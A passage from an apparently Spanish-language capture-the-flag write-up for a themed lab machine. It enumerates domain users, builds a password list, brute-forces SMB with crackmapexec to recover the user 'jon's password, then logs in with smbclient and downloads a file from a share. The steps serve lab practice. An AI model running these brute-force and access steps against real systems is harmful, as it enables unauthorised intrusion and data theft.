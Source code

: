 Una ves conectados aplicamos el siguiente comandos para enumerar a los usuarios del sistema:
```bash
enumdomusers
```
### Credenciales Encontradas
- Usuario: `[ jon ]`
- Contraseña: `[  ]`
---
## Explotacion de Vulnerabilidades
### Vector de Ataque
Ahora que tenemos al usaurio: **( jon )** aplicaremos un ataque de fuerza bruta con **crackmapexec** sobre el usuario objetvio: usaremos estas frases como posibles passwords. y el archivo lo llamaremos **password.txt**
```bash
seacercaelinvierno
elcaminoreal
lordnieve
tullidosbastardosycosasrotas
elloboyelleon
unacoronadeoro
ganasomueres
porelladodelapunta
baelor
fuegoyhielo
```

### Ejecucion del Ataque
```bash
# Comandos para explotación
crackmapexec smb 172.17.0.2 -u jon -p password.txt
```

ahora tenemos las credenciales de acceso de este usuario:
```bash
SMB         172.17.0.2      445    0A1E62A2CAAD     [*] Windows 6.1 Build 0 (name:0A1E62A2CAAD) (domain:0A1E62A2CAAD) (signing:False) (SMBv1:False)
SMB         172.17.0.2      445    0A1E62A2CAAD     [+] 0A1E62A2CAAD\jon:seacercaelinvierno
```

Ahora nos conectaremos al servicio apuntando a los servicios compartidos para este usuario:
```bash
smbclient //172.17.0.2/shared -U jon%seacercaelinvierno
```

Dentro listamos los recursos encontrando este:
```bash
 proteccion_del_reino
```

Descargamos su contenido:
```bash
get proteccion_del_reino
```
